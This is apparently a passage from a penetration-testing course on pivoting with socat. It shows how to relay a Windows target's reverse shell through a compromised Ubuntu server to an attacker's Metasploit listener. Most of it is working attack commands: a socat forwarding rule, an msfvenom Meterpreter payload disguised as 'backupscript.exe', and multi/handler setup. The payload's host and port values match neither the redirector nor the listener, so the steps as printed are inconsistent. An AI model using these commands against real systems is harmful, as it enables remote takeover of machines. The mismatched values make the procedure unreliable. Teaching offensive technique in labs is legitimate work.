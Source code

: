 [Socat](https://linux.die.net/man/1/socat) is a bidirectional relay tool that can create pipe sockets between `2` independent network channels without needing to use SSH tunneling. It acts as a redirector that can listen on one host and port and forward that data to another IP address and port. We can start Metasploit's listener using the same command mentioned in the last section on our attack host, and we can start `socat` on the Ubuntu server.

#### Starting Socat Listener

  Socat Redirection with a Reverse Shell

```shell-session
ubuntu@Webserver:~$ socat TCP4-LISTEN:8080,fork TCP4:10.10.14.18:80
```

Socat will listen on localhost on port `8080` and forward all the traffic to port `80` on our attack host (10.10.14.18). Once our redirector is configured, we can create a payload that will connect back to our redirector, which is running on our Ubuntu server. We will also start a listener on our attack host because as soon as socat receives a connection from a target, it will redirect all the traffic to our attack host's listener, where we would be getting a shell.

#### Creating the Windows Payload


```shell-session
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.16.5 -f exe -o backupscript.exe LPORT=3001

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 743 bytes
Final size of exe file: 7168 bytes
Saved as: backupscript.exe
```

Keep in mind that we must transfer this payload to the Windows host. We can use some of the same techniques used in previous sections to do so.

#### Starting MSF Console

  Socat Redirection with a Reverse Shell

```shell-session
sudo msfconsole

<SNIP>
```

#### Configuring & Starting the multi/handler

  Socat Redirection with a Reverse Shell

```shell-session
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 80
lport => 80
msf6 exploit(multi/handler) > run

[*] Started HTTPS reverse handler on https://0.0.0.0:80
```

